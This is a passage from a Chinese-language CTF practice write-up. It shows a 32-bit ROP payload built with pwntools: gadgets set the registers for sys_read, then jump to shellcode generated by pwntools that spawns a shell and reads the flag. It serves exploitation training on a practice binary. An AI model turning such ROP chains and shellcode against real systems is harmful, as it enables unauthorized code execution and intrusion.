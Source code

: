 ```
edx = 0x01010101 # not 0x00
ecx = 0x80ca000
ebx = 0
eax = 0x3
```

利用ropshell网站查询所需gadget，整体流程同 **0x02章节**，在此不再赘述。payload布局如下：

```
#2-1 edx &lt;- 0x01010101
payload1 += p32(0x08052476) #pop edx ; ret
payload1 += p32(0x01010101) 

#2-2 ecx &lt;- 0x080ca000
payload1 += pack(0x0000a49d) # pop ecx; pop ebx; ret
payload1 += p32(0x80ca001)
payload1 += p32(0xffffffff)
payload1 += pack(0x000008e9) # dec ecx; ret

#2-3 ebx &lt;- 0
payload1 += pack(0x000806d1) # inc ebx; ret

#2-4 eax &lt;- 0x3
payload1 += pack(0x000601d6) # pop eax; ret
payload1 += p32(0xffffffff)
payload1 += pack(0x000222ef) # inc eax; ret
payload1 += pack(0x000222ef)
payload1 += pack(0x000222ef)
payload1 += pack(0x000222ef)

payload1 += pack(0x0000aba0) # int 0x80; ret
```

### <a class="reference-link" name="0x03%20%E8%B7%B3%E8%BD%AC%E5%88%B0shellcode%20%E6%89%A7%E8%A1%8C%E6%8B%BFflag"></a>0x03 跳转到shellcode 执行拿flag

上述两步执行完成后，读取shellcode存储在 **0x80ca000** 处，即 **sys_read** 执行完的 **ecx** 地址处，因此在 **payload** 的最后，加上如下gadget即可。

```
payload1 += pack(0x0005e42c) # jmp ecx
```

payload 保存到 payload.txt。

shellcode 直接通过 pwntools 的 `asm(shellcraft.i386.linux.sh())` 直接生成，保存到shellcode.txt。

成功溢出获得shell，拿到flag.

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01c68a70745adf23ed.png)



## 0x04 结束语

对pwn靶机的练习，回顾了一下rop的几种操作。当然，复杂的情况还有很多，针对具体问题也要具体分析，但总之，掌握了其核心关键的知识要点，复杂的情况只要耐心细致地分析即可。以后会继续给大家带来。<br>
祝大家学习工作顺利，盼和大家共同进步。
